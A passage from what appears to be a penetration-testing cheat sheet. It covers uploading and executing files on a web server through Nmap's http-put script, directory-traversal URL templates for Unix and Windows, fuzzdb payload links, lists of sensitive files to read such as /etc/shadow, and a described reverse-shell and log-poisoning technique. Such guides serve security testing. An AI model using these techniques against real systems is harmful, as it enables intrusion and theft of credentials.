   ### NMap NSE Put Script
  ```
  nmap -p 80 [ip] --script http-put --script-args http-put.url='[URL directory off the IP where the PUT method exists]/[new_file_name].[extension]',http-put.file='[local file location of file to upload].[extension]'
  ```
5. Navigate to the script file location through a GET request to execute it.

## Directory Traversal
In areas of the application where we see directories hardcoded into the web address bar, we should try directory traversal attacks to see if we can navigate to any file on the system.
### LFI Test Payloads
[Simple LFI Payload Check](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/simple-check.txt)
[Dot Dot Slash Payload Check](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/dot-slash-PathTraversal_and_LFI_pairing.txt)
[Interesting Files](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-InterestingFiles.txt) [with nullbyte added](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI_InterestingFiles-NullByteAdded.txt)
### Xnix 
```
Http(s)://[web address]?[variable]=../../../../../../../../../../../../../../../../../[file location like etc/passwd or etc/resolve.conf]
```
- Try with no extension and then try with common extensions like .htm or .html or .txt 
- Also try to delete pre-filled extensions (txt, php, etc.) to see if we can get a verbose error message to pull threads on. 
### ISS / Windows 
```
Http(s)://[web address]?[variable]=../../../../../../../../../../../../../../../../../[file location like \%systemroot%\system32\config] 
```
### Valuable File Locations To Read w/ LFI
- SSH Key locations if Port 22 is open. 
```
Var/log/auth.log 
```
- Understand what user the web server is running as.
```
/proc/self/status
```
  - Displays the UID/GID of the user which we have to cross-reference to the passwd file to identify the name.
- OS files for passwords. 
```
/etc/passwd
```
```
/etc/shadow
```
  - Generally can't read this unless the permissions to it are missconfigured.  If we can read this then we usually can read anything and it's over.
- See if the server stores the User-Agent value on-disk.
```
/proc/self/environ
```
  - If so, we can send a PHP reverse shell one-line through the HTTP-User-Agent header value.  Then navigate to this file to execute the reverse shell.
- Log poisoning
```
var/log/apace2/access.log
```